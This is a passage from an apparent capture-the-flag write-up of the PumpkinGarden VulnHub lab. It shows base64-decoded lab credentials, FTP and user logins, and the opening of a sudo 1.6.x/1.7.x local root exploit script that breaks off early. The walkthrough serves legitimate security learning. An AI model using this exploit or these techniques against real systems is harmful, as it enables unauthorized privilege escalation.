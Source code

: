 I'm going to take a look at those

The cat asked me to look at pumpkins (just like in that comment earlier), and theres also hidden secret which looks promising.


and there is a clue in the hidden folder. 

```
c2NhcmVjcm93IDogNVFuQCR5
```

&nbsp;&nbsp;&nbsp;&nbsp;Could be a password, could be an encoded string.
 Lets try decoding it using base64.

```
scarecrow : 5Qn@$y
```

&nbsp;&nbsp;&nbsp;&nbsp;That may be a user password set.
 Lets try that on the ftp server
 ... that did the trick, in the directory theres another note.

```
Oops!!! I just forgot; keys to the garden are with LordPumpkin(ROOT user)!
Reach out to goblin and share this "Y0n$M4sy3D1t" to secretly get keys from LordPumpkin.
```

&nbsp;&nbsp;&nbsp;&nbsp;Ok, so know i know that LordPumpkin is the root user, and there is likely another user named goblin.
 I can try to log in to the ftp server with that key, but I doubt thats the password.
 …
 lol I actually can log into goblin with those creds. In goblins home directory there another note...

```
Hello Friend! I heard that you are looking for PumpkinGarden key. 
But Key to the garden will be with LordPumpkin(ROOT user), don't worry, I know where LordPumpkin had placed the Key.
You can reach there through my backyard.

Here is the key to my backyard
https://www.securityfocus.com/data/vulnerabilities/exploits/38362.sh
```

&nbsp;&nbsp;&nbsp;&nbsp;I checked the domain and it seems legit so buuuut that script isn't up anymore.

&nbsp;&nbsp;&nbsp;&nbsp;Shit.

&nbsp;&nbsp;&nbsp;&nbsp;This seems like an acceptable time to cheat.
 The file I need to complete the exercise doesn't exist, so I just grabbed it from someone's [walkthrough](https://www.hackingarticles.in/pumpkingarden-vulnhub-walkthrough/). 

```
#!/bin/sh
# Tod Miller Sudo 1.6.x before 1.6.9p21 and 1.7.x before 1.7.2p4
# local root exploit
# March 2010
# automated by kingcope
# Full Credits to Slouching
echo Tod Miller Sudo local root exploit
echo by Slouching
echo automated by kingcope
if [ $# != 1 ]
then
echo “usage: ./sudoxpl.sh <file you have permission to edit>”
exit
fi
cd /tmp
cat > sudoedit << _EOF
#!/bin/sh
```